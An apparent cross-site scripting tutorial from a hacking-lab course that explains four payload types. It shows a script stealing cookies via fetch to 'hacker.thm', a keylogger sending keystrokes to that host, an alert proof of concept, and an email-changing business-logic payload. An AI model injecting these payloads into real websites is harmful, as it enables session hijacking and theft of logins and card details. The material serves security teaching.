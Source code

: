 
Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:


``` <script>alert('XSS');</script> ```


Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


```<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>```


Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.


```<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>```


Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:


```<script>user.changeEmail('attacker@hacker.thm');</script>```

